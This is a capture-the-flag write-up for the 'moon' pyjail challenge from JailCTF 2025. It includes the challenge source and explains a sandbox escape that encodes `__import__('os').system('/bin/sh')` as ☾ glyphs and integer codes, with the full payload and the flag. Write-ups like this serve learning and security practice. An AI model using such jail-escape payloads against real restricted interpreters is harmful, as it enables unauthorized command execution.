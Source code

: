 ```yaml
---
layout: writeup
parent: JailCTF 2025
tags: ["moon", "pyjail"]
---
```

<h1>{{ page.title | downcase }} {% for tag in page.tags %}<span class="category-tag">{{ tag }}</span>{% endfor %}</h1>
```
glyph-based language that transpiles to python (for now…)
```
main.py:
```python
#!/usr/local/bin/python3
import os
import tempfile

inp = [int(n_str) for n_str in input('moon input > ').split()]

if not all(n > 255 for n in inp):
    print('bad input')
    exit()

with tempfile.NamedTemporaryFile(mode='w', suffix='.☾', delete_on_close=False) as f:
    f.write('print("loaded");' + ''.join([chr(n) for n in inp]))
    f.close()
    print('loading')
    os.system(f'☾ {f.name}')
    print('done')
```

## ☾?
The core of this challenge was finding a payload that entirely consisted of ASCII characters codes > 255.

## Method
Since ☾ transpiles to Python, we can pretty much use anything in Python in ☾. Using this, the core of the exploit is running `__import__('os').system('/bin/sh')` in a fancy way:

1. We need a way to execute code ourselves which by looking into the [moon docs](https://moon-docs.netlify.app/) we are given 󱠨 which can exec ☾ code at runtime (pretty much Python's `exec()`)
2. To encode the string, we can first use 󷸓 to subscript our Python payload and in our ☾ payload use 󷸼 to unscript it.
3. We can then use magic strings (which are pretty much equivalent to format strings in Python) to formulate our final payload

One final thing to note is that to call functions without parentheses (which are not allowed) we can use ∘ which calls the function with one argument

## Payload

### in ☾
󱠨∘‹⟦󷸼∘‹􋕞􋕞ᵢₘₚ󰂼ᵣₜ􋕞􋕞₍􋕦󰂼ₛ􋕦₎􋕜ₛₛₜₑₘ₍􋕦􋑫ᵢₙ􋑫ₛₕ􋕦₎›⟧›

### challenge submission (integer ascii codes)
![da moooon](/files/overdamoon.png)
```
989224 8728 8249 10214 1015356 8728 8249 1095006 1095006 7522 8344 8346 983228 7523 8348 1095006 1095006 8333 1095014 983228 8347 1095014 8334 1095004 8347 59411 8347 8348 8337 8344 8333 1095014 1094763 59397 7522 8345 1094763 8347 8341 1095014 8334 8250 10215 8250
```

`jail{welcome_to_spaghetti_code_convention_2025_57287fc685d9894e1}`



